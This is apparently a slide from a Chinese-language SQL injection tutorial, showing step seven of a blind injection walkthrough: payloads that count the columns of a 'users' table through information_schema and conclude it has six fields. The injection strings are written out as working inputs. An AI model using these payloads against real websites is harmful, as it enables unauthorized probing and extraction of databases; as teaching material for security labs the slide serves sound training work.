

SQL注入漏洞

第七步：猜解表中字段的数量
1' and (select count(column_name) from information_schema.columns where table_name= 'users')=1 #  显示不存在

…

1' and (select count(column_name) from information_schema.columns where table_name='users')=6 # 显示存在

说明users表有6个字段。